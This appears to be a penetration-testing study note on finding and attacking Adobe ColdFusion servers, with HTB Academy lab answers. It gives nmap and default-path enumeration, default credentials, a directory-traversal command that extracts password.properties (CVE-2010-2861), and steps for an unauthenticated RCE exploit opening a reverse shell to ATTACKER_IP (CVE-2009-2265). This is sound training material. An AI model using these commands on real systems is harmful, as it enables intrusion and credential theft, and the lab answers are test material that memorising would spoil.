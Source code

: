 # 🔥 ColdFusion Discovery & Enumeration

> **🎯 Objective:** Identify ColdFusion applications, enumerate version information, and discover default files and directories for further exploitation.

## Overview

**ColdFusion** is a Java-based web application development platform using **CFML (ColdFusion Markup Language)**. Commonly found in enterprise environments with specific file extensions (`.cfm`, `.cfc`) and default directories.

---

## HTB Academy Lab Solution

### Lab: Protocol Identification
**Question:** "What ColdFusion protocol runs on port 5500?"

#### ColdFusion Default Ports
| Port | Protocol | Description |
|------|----------|-------------|
| 80   | HTTP     | Non-secure web communication |
| 443  | HTTPS    | Secure web communication |
| 1935 | RPC      | Remote Procedure Call |
| 25   | SMTP     | Email communication |
| 8500 | SSL      | Server communication via SSL |
| **5500** | **Server Monitor** | **Remote administration** |

**Answer:** `Server Monitor`

---

## Discovery Methods

### 1. Port Scanning
```bash
# Nmap service detection
nmap -p- -sC -Pn TARGET --open

# Look for common ColdFusion ports
# 8500/tcp open  fmtp (ColdFusion SSL port)
```

### 2. File Extensions
- **`.cfm`** - ColdFusion Markup pages
- **`.cfc`** - ColdFusion Components

### 3. Default Directories
```bash
# Common ColdFusion paths
/CFIDE/
/cfdocs/
/CFIDE/administrator/
/CFIDE/administrator/index.cfm
```

### 4. HTTP Headers
```bash
# Response headers indicating ColdFusion
Server: ColdFusion
X-Powered-By: ColdFusion
```

### 5. Error Messages
- ColdFusion-specific error pages
- CFML tag references in errors
- Stack traces mentioning ColdFusion

---

## Enumeration Techniques

### Directory Structure
```bash
# Navigate to ColdFusion installation
http://TARGET:8500/

# Common findings:
# /CFIDE/ - Administrator interface
# /cfdocs/ - Documentation
```

### Version Detection
```bash
# Administrator login page
http://TARGET:8500/CFIDE/administrator/

# Look for version in:
# - Login page footer
# - Error messages
# - Default files
```

### File Discovery
```bash
# Common ColdFusion files
Application.cfm
index.cfm
admin.cfm
install.cfm
```

---

## Key Indicators

**Positive Identification:**
- 🔍 **Port 8500** open (SSL/administrator)
- 📁 **CFIDE directory** accessible
- 📄 **`.cfm` extensions** in responses
- 🏷️ **ColdFusion headers** in HTTP responses
- ⚠️ **CF error messages** with CFML references

**Attack Surfaces:**
- **Administrator interface** - Authentication bypass
- **Default credentials** - admin:admin, blank passwords
- **File upload** capabilities
- **Directory traversal** vulnerabilities
- **RCE via CFML** code execution

---

## HTB Academy Attacking Labs

### Lab: ColdFusion User Context
**Question:** "What user is ColdFusion running as?"

#### Method 1: Directory Traversal (CVE-2010-2861)
```bash
# Download directory traversal exploit
searchsploit -m multiple/remote/14641.py

# Extract password.properties file
python2 14641.py TARGET 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

# Result: Retrieves encrypted passwords and config data
```

#### Method 2: Unauthenticated RCE (CVE-2009-2265)
```bash
# Download RCE exploit
searchsploit -m cfm/webapps/50057.py

# Modify exploit variables:
# lhost = 'ATTACKER_IP'  # Your VPN IP
# lport = 4444           # Listener port  
# rhost = 'TARGET_IP'    # Target IP
# rport = 8500           # Target port

# Execute exploit for reverse shell
python3 50057.py

# In reverse shell, check user context
whoami
```

**Answer:** `arctic\tolis`

---

## ColdFusion Attack Vectors

### 1. Directory Traversal (CVE-2010-2861)
- **Vulnerable files:** `/CFIDE/administrator/settings/mappings.cfm`
- **Method:** Manipulate `locale` parameter with `../` sequences
- **Target:** Extract `password.properties` and config files

### 2. Unauthenticated RCE (CVE-2009-2265)  
- **Vulnerable path:** `/CFIDE/scripts/ajax/FCKeditor/`
- **Method:** File upload via FCKeditor functionality
- **Impact:** JSP shell upload → full system compromise

### 3. Common Exploits
```bash
# Search for ColdFusion exploits
searchsploit adobe coldfusion

# Key exploits:
# 14641.py - Directory Traversal
# 50057.py - Unauthenticated RCE  
# 27755.txt - Admin Authentication Bypass
```

**💡 Pro Tip:** ColdFusion installations often have default credentials or weak authentication on the administrator interface - always check `/CFIDE/administrator/` for access opportunities. 